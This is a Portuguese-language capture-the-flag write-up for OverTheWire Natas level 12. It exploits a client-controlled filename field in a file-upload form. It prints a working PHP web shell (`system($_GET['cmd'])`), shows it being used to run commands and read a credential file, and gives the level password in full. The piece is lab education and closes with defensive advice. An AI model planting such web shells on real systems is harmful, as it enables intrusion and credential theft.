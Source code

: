 # 🕵️ Natas - Nível 12 (🇧🇷 Português)  
*Data: 03/06/2025*    
*Dificuldade: Médio*   
*Categoria: Web* 

---

## 🎯 Objetivo

O objetivo deste desafio é identificar e explorar uma vulnerabilidade de upload de arquivos que permite a manipulação de nomes de arquivos no lado do cliente, resultando em Execução Remota de Código (RCE) para obter a senha do próximo nível (Natas13).  

---

## 🔎 Análise

- A aplicação web em `http://natas12.natas.labs.overthewire.org/` oferece uma funcionalidade de upload de imagens JPEG com um limite de tamanho de 1KB.  
- Tentativas de bypass de extensão comuns (ex: `.php.jpg`, `test.php%00.jpg` - null byte) não funcionaram, pois o servidor sempre anexa `.jpg` ao nome final, invalidando a execução como PHP.  
- A análise do código fonte da página HTML revelou um campo oculto no formulário de upload: `<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />`.  
- Este campo oculto pré-define o nome do arquivo que será salvo no servidor, incluindo a extensão `.jpg`, antes mesmo de o usuário selecionar o arquivo para upload.  
- A vulnerabilidade reside no fato de que o nome final do arquivo é controlado por um valor pré-populado no lado do cliente (via campo `hidden`), que pode ser interceptado e manipulado.
- Nosso objetivo é alterar a extensão de `.jpg` para `.php` no campo `filename` da requisição HTTP para que o servidor salve nosso arquivo com a extensão correta.
- O payload a ser enviado será um simples shell PHP: `<?php system($_GET['cmd']); ?>`, permitindo a execução de comandos via parâmetro `cmd` na URL. 

---

## 🧱 Etapas

1. Acessar a Aplicação: Navegar até `http://natas12.natas.labs.overthewire.org/`.  
2. Testar o Upload: Tentar fazer upload de um arquivo para observar o comportamento do servidor (renomeando para `.jpg`).  
3. Analisar o Código Fonte: Inspecionar o código HTML da página de upload para identificar o campo `input type="hidden" name="filename"`.  
4. Preparar o Payload: Criar um arquivo PHP (ex: `bypass.php`) com o conteúdo `<?php system($_GET['cmd']); ?>`.  
5. Interceptar a Requisição: Utilizando a ferramenta proxy `Burp Suite` para capturar a requisição de upload do arquivo.  
6. Manipular o Nome do Arquivo: Na requisição interceptada, localizar o parâmetro `filenamee` alterar sua extensão para `.php `(ex: c36r0bea02.jpg para c36r0bea02.php).  
7. Enviar a Requisição: Enviar a requisição modificada para o servidor.
8. Verificar Upload: O servidor retornará uma mensagem confirmando o upload do arquivo com a extensão .php (ex: The file `upload/dnfplwi4tz.php` has been uploaded).
9. Acessar o Shell Web: Navegar até a URL do arquivo PHP recém-enviado (ex: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php`). Observar as mensagens de erro ("Notice: Undefined index: cmd", "Warning: system(): Cannot execute a blank command"), que confirmam que o PHP está interpretando o arquivo.
10. Executar Comandos: Testar a execução de comandos adicionando o parâmetro cmd na URL (ex: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php?cmd=pwd`). Confirmar o RCE.
11. Obter a Senha: Executar o comando para ler o arquivo de senha do Natas13: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php?cmd=cat%20/etc/natas_webpass/natas13`.  

---

## 🔑 Senha Encontrada

```
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```

---

## ✅ Conclusão

A vulnerabilidade foi explorada com sucesso ao manipular o campo filename de um input hidden no formulário de upload, que era preenchido no lado do cliente. Isso permitiu o bypass da validação de extensão do servidor e o upload de um shell PHP. A execução remota de código foi confirmada e a senha para o próximo nível foi obtida. Este caso destaca o perigo de confiar em qualquer tipo de controle de entrada do lado do cliente para a segurança da aplicação, especialmente em funcionalidades de upload.

---

## 🧪 Comandos Utilizados

Conteúdo do arquivo shell.php:
PHP

<?php system($_GET['cmd']); ?>
Acesso ao shell web (após upload e manipulação do nome):  
`http://natas12.natas.labs.overthewire.org/upload/[nome_aleatorio].php`  
Verificar RCE:   
`http://natas12.natas.labs.overthewire.org/upload/[nome_aleatorio].php?cmd=pwd`  
Obter senha do Natas13:   
`http://natas12.natas.labs.overthewire.org/upload/[nome_aleatorio].php?cmd=cat%20/etc/natas_webpass/natas13`  

---

## 🧠 Observações

- Validação Server-Side é Crucial: Nunca confie em validações feitas apenas no lado do cliente (JavaScript, campos HTML ocultos). Sempre revalide todas as entradas no lado do servidor.  
- Whitelist para Extensões e Tipos MIME: Em vez de blacklists, use whitelists (listas de permissão) para extensões de arquivos e tipos MIME permitidos para upload.  
- Renomeação Segura de Arquivos: Ao renomear arquivos, use um nome gerado aleatoriamente e uma extensão validada no servidor, sem permitir qualquer entrada do usuário no nome ou extensão final.  
- Isolamento de Uploads: Arquivos enviados por usuários devem ser armazenados em um diretório fora da raiz web ou configurado para não permitir execução de scripts.  


---

## 📎 Scripts desenvolvidos

[bypass.php](): Um shell PHP simples (`<?php system($_GET['cmd']); ?>`) utilizado para a execução remota de comandos.

---

<p align="center"> <a href="../Natas11/Readme-BR.md">⬅️ Anterior</a> • <a href="../Natas13/Readme-BR.md">Proximo ➡️</a> </p>
